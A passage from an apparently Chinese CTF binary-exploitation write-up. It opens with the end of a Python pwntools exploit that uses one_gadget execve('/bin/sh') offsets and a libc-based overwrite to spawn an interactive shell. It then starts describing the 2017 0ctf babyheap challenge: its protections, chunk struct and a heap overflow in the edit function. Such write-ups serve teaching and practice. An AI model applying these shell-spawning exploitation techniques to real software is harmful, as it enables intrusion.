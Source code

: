 ```python
	0xf0364 execve("/bin/sh", rsp+0x50, environ)
	constraints:
	  [rsp+0x50] == NULL

	0xf1207 execve("/bin/sh", rsp+0x70, environ)
	constraints:
	  [rsp+0x70] == NULL
	'''
	# gdb.attach(p)
	Index(p64(0xf1207+libc_base).rjust(0x1b,'a').ljust(0x68,'b'))




	# gdb.attach(p)
	p.interactive()
	
if __name__ == '__main__':
	exp()
```



## 2017 0ctf babyheap

### 基本情况

    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
保护全开，RELRO 全开，got 表不能修改。

### 基本功能

程序是一个堆管理器，有增删查改功能。

结构体：

```c
struct{
    int inuse;
    int size;
    void *chunk_ptr;
}
```

限制申请 chunk 上限为 16 个，大小小于等于 4096 字节即可。四大功能都是根据 chunk 下标进行操作。

### 漏洞

在修改函数中，修改的大小是自行输入的，并不是读取结构体中 chunk size ，造成了堆溢出问题。
